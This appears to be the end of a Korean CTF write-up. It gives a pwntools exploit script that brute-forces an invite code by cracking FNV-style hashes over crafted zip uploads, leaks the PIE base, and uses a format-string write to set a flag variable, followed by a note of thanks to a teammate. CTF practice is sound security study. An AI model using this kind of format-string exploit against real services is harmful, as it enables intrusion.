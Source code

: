 ```python
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', password)

def crackhash(h : str):
    v5 = 0xCBF29CE484222325
    for i in range(-9, 0):
        v5 = 0x100000001B3 * (ord(invite_code[i]) ^ v5)

    for i in range(256):
        v6 = (0x100000001B3 * (i ^ v5)) & ((1 << 64) - 1)
        if hex(v6)[2:] == h:
            return chr(i)

start_num = -516 + 14 - 9
tb = bytearray(open('./tb.zip', 'rb').read())
ex = bytearray(open('./ex.zip', 'rb').read())
invite_code = ""

for i in trange(20):
    num = start_num - (515 * i)
    a = p32(num & 0xffffffff)
    tb[26:30] = a
    uploadfile(15, tb.hex().encode())
    h = listfiles(15, i + 1)
    invite_code += crackhash(h)

invite_code = invite_code[-20:]
print(invite_code)

#invite_code = b"yelling-pixel-corals"
#invite_code = b'terrible-red-busses'

createuser(b'csh', b'csh')
uploadfile(0, ex.hex().encode())
viewfile(0, b'csh', 0)
pie_base = int(p.recvuntil(b' ')[:-1], 16) - 0x5040
wantsetadd = pie_base + 0x5040 + 0x10
print(hex(pie_base))

subprocess.run(['rm', 'ex2.txt'])
ex2 = open('./ex2.txt', 'wb')
payload = fmtstr_payload(14, {wantsetadd:1})
ex2.write(payload)
ex2.close()
subprocess.run(['rm', 'ex2.zip'])
subprocess.run(['zip', '-X', '-0', 'ex2.zip', 'ex2.txt'])
ex2 = open('./ex2.zip', 'rb').read()
print(ex2)
uploadfile(0, ex2.hex().encode())
print(hex(wantsetadd))
viewfile(0, b'csh', 1)
viewflag(0, b'csh')
p.interactive()

# zip -X -0 tb.zip tb.txt
```

<br>
- 후일담

`Finder(이재영)`가 아주 중요한 아이디어를 불어넣어 줘서 이 문제를 풀었다 해도 과언이 아닐 정도로 저에게 많은 도움을 주었습니다. 이 글을 빌러 고맙다는 말을 전합니다.
